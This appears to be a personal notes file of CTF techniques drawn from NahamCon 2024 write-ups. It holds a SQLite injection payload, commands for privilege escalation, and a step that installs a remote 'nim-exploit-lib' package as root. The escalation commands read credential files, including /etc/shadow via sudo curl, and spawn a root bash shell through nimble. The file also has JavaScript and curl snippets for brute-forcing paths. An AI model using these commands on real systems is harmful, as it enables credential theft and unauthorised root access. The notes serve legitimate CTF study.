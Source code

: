 # This is a file i'll include things i didn't know and or find after reading some write-ups

## apps

- `https://play.google.com/store/apps/details?id=com.arara.q`

## sql injections

- ' || (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'))--

## Privilege Escalation

### cat .bash_history

This might show what someone has already done.
Maybe shows passwords from sshpass.

### cat /etc/passwd | grep sh

This might show some other users, and we grep to what users have shells.

### sudo -l

shows what sudo accesses a users have

#### Nahamcon-2024/curly_fries challenge

For this challenge we logged in as user:userpass with ssh and found access to the fry users directory, including its history file, and found the fry user's password, making us able to switch to the fry user.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-curlly-fries-sudo-l.png)

This shows the user fry can execute a certain curl command as root without the need for a password.
Using "sudo curl 127.0.0.1:8000/health-check file:///etc/shadow".
Then we can crack the hashes of the machine and pawn it.

See `https://github.com/LazyTitan33/CTF-Writeups/blob/main/Nahamcon-2024/Misc/Curly_Fries.md`

#### Nahamcon-2024/jack_be part 1

For this challenge we logged in as user:userpass with ssh.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-Jack-Be.png)

This shows the user jack can run a use nim run as root without a password.
So we create a nim project, and file that executes commands.

```bash
nimble init .

echo '#main.nim

import osproc

proc main() =
    let command = "/bin/bash"
    let result = execCmd(command)
    echo result

when isMainModule:
    main()'>./src/main.nim

chmod 777 .
nimble build
sudo -u jack /usr/bin/nimble run
```

And where in jack

#### Nahamcon-2024/jack_be part 2

In part 1 we logged in to another user.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-Jack-Be2.png)

From here we can continue with `sudo -l` and we can see we can use `sudo nimble install *` without a password and can continue escalating our privilege with package you made yourself.

```bash
sudo -l
sudo -u root /urs/bin/nimble install https://github.com/ThorD125/nim-exploit-lib
```

See `https://game0v3r.vercel.app/blog/nahamconctf-miscellaneous`

## extra s

Very specific case but still interesting.

### Make Self Extracting Sccript

If there is a file,
Including the hex data of the file to extract,
The following command can be used to write it to a file:
`tail -n 75 self_extractor > result`

### Iframe bruteforcing

<code type="javascript">for (let index=0; index < 15; index++ ) {
    const url = `${window.location.href}/pathtobruteforce/${index}`;
    document.write(`${index}: ${url}`);
    document.write(`<iframe sandbox style="width: 100%" src="${url}"></iframe>`);
}</code>

### Fetch Enumerating

<code>for (let index = 0; index < 200; index++) {
    const url = `${window.location.href}/pathtobruteforce/${index}`;
    await fetch(url).then(r => {
        if(r.status!=404) console.log(url);
    });
}</code>

### Curl Enumerating

`curl --silent --fail "https://example.com/[0-10]" -o "out/post_#1.txt" -s -w '%{url} %{http_code}\n`
